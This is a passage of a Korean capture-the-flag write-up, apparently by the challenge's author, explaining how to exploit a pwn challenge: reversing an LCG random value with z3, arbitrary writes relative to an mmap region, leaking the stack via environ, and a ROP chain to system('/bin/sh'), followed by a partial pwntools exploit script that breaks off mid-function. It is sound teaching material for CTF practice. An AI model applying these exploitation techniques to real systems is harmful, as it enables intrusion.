 추가로 buf→state 포인터는 int* 형이기 때문에 한번에 6바이트의 주소를 leak 할 수 없다. 따라서 2번에 걸쳐서 계산을 해야한다. 그리고 랜덤값 계산 로직상 역산 결과가 여러가지가 나올 수 있기 때문에 기본적으로 확률 익스플로잇이다. 익스플로잇 코드에서는 z3-sovler를 이용해서 계산하였다. 

## system(”/bin/sh”)

크게 `exit_function_list` 를 덮는 방법과 스택포인터를 덮는 방법이 있다. 

본 풀이에서는 스택포인터를 덮는 방법으로 풀이를 했다. `environ` 포인터를 이용해서 스택포인터를 leak 하고, `wish` 함수의 RET + 0x30에 rop 페이로드를 구성한다. 마지막으로 `add rsp + 0x28` 가젯을 이용해서 `system` 함수를 실행시킨다. 주의할 점은 `environ` 포인터를 이용해서 leak 을 하게 되면 해당 포인터가 망가지게 된다. `system` 함수는 `environ` 포인터가 정상적이지 않으면 동작을 하지 않기 때문에 이를 복구해주는 과정이 포함되어야한다. 

스택포인터의 계산과 `environ` 포인터 복구가 귀찮기 때문에, 전자의 방법이 풀이자 입장에서는 더 쉬울 것이라고 생각된다.

~~원래 버전에서는 exit 를 실행할 수 없었지만, 난이도 조절 이슈로 수정한 것은 비밀이다~~

## 리모트 익스플로잇 
본 문제에서는 처음에 `mmap` 을 통해서 메모리를 할당받고 해당 메모리 기준으로 AAW 가 가능하기 때문에 도커를 사용하더라도 서버와 오프셋이 다를 수 있다. 리모트 익스플로잇을 위해서는 libc 베이스 주소와 `mmap` 으로 할당받은 영역의 차이만 알면 되기 때문에, 문제 프로세스를 생성하고 메모리맵을 보여주는 helper 바이너리가 존재한다. 이를 참고하여 브루트 포싱 없이 익스플로잇 코드를 작성할 수 있다. 

```python
from pwn import*
from z3 import*

def wish(idx, content):
    p.recvuntil(b'>')
    p.sendline(b'1')
    p.recvuntil(b':')
    p.sendline(str(idx).encode())
    p.recvuntil(b':')
    p.send(content)

def draw(comment):
    p.recvuntil(b'>')
    p.sendline(b'2')
    p.recvuntil(b' : ')
    p.send(comment)

def getLucky():
    p.recvuntil(b'>')
    p.sendline(b'3')
    p.recvuntil(b'is ')
    return int(p.recvline()[:-1])

def getNext(cur):
    return ((cur * 1103515245) + 12345) & 0x7fffffff

def aaw(offset, val, neg = True):
    if neg:
        offset = negate(offset, width = 64)
    nextRand = getNext(getLucky())
    wish(0, p64(nextRand))
    draw(b'A' * 8 + p64(offset))
    wish(0, p64(val).replace(b'\x00', b'\x0a'))

#If set pr, z3 ignores result at pr-1 times.
def leak(pr = 1):
    num = getLucky()
    s = Solver()
    x = BitVec('x', 64)
    s.add(((x * 1103515245) + 12345) & 0x7fffffff == num)
    s.check()
    result = s.model().eval(x).as_long()
    pr -= 1
    while pr > 0:
```